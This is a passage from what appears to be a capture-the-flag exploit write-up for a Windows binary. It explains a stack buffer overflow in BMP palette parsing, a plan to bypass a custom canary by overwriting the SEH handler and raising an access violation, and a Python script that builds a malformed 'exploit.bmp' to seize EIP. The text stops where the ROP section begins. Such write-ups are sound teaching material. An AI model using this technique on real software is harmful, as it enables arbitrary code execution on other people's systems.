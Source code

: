 
### 2. The vulnerability

There is a buffer overflow vulnerability when the palette data is copied onto the stack of `process_file_402BD0`.

However, we cannot directly overwrite the return address because of the canary. Interestingly, the canary
is not the stack cookie used by Microsoft compiler. It is a custom canary based on `dwAvailVirtual` value. After some testing, it turned out that the value is not predictable.

Instead, we could overwrite the SEH handler and raise an exception before the program checks canary. If the `head.num_plte` is very large, then `copy_palette_402720` will try to copy above stack limit. As the code accesses an unmapped address, an `EXCEPTION_ACCESS_VIOLATION` is raised and overwritten SEH handler is called.

With this vulnerability, we will execute arbitrary shellcode.


### 3. ROP

First we need to control EIP. Simple buffer overflow will do.

```py
import struct
def pack(x, f='<I'):
    return struct.pack(f, x)

overlen = 0x1000
size = 0x10

b = 'BM' + 'fhdr'*3
b += pack(40)
b += pack(0)
b += pack(0)
b += pack(1, '<H')
b += pack(8, '<H')
b += 'cmpr'
b += pack(size)
b += 'xdpi'
b += 'ydpi'
b += pack(overlen/4) # num_palettes
b += 'zero'

over = ''
over = over.ljust(overlen, 'B')
b += over

data = 'C'*size
b += data

with open("exploit.bmp","wb") as f:
  f.write(b)
```
